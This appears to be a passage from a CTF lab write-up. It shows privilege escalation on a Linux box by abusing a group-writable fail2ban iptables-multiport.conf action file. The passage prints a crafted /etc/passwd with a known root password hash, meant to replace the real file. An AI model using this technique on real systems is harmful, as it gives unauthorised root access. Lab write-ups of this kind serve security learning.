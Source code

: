 **Fail2ban** is a great IDPS tool, not only it can **detect** attacks but also **block** the malicious IP addresses by using Linux iptables. Let us check if fail2ban is running on the box.

```
fox@fail:~$ /etc/init.d/fail2ban status
● fail2ban.service - Fail2Ban Service
   Loaded: loaded (/lib/systemd/system/fail2ban.service; enabled; vendor preset: enabled)
   Active: active (running) since Sun 2021-06-13 15:17:01 EDT; 25s ago
     Docs: man:fail2ban(1)
  Process: 1162 ExecStartPre=/bin/mkdir -p /var/run/fail2ban (code=exited, status=0/SUCCESS)
 Main PID: 1163 (fail2ban-server)
    Tasks: 3 (limit: 2359)
   Memory: 10.5M
   CGroup: /system.slice/fail2ban.service
           └─1163 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

So **fail2ban** is active on the box. 

Although fail2ban can be used for services like HTTP, SMTP, IMAP etc. but most of sys-admins use it to protect the SSH service. fail2ban daemon reads the log files and if there is a malicious pattern detected (e.g multiple failed login requests) it executes a command for blocking the IP for certain period of time or maybe forever. As we have SSH active, there might be fail2ban rules for SSH login attempts.

```
fox@fail:/etc/fail2ban/action.d$ ls -al iptables-multiport.conf 
-rw-rw-r-- 1 root fail2ban 1420 Jan 18  2018 iptables-multiport.conf
```

After some enumeration, we find that there is a misconfiguration in fail2ban. The `iptables-multiport.conf` file has group write access for `fail2ban` group. Now this file is responsible for executing some commands when an IP is blocked. We can use this for elevating our privileges since we belong to the group `fail2ban`.

I am going to manipulate the `/etc/passwd` file to get root on the box.

First let us copy `/etc/passwd` to our local box. Then create a SHA-512 hash for the root user.

```
┌──(root💀nehal)-[~]
└─# mkpasswd -m sha-512 hacked
$6$OzVhHlXLINLt4Y3/$.XVGd1uxtozI89DUyFh5HO7s74Ue.31MhyQKCQTOoz0LCeA0wbxv4q4jMj5eNvzbtuqkHxP85XAgLbIk6TynL/
```

Now let us place the hash in the password field of the `/etc/passwd` copy.

```
┌──(root💀nehal)-[~]
└─# cat passwd.bak 
root:$6$OzVhHlXLINLt4Y3/$.XVGd1uxtozI89DUyFh5HO7s74Ue.31MhyQKCQTOoz0LCeA0wbxv4q4jMj5eNvzbtuqkHxP85XAgLbIk6TynL/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```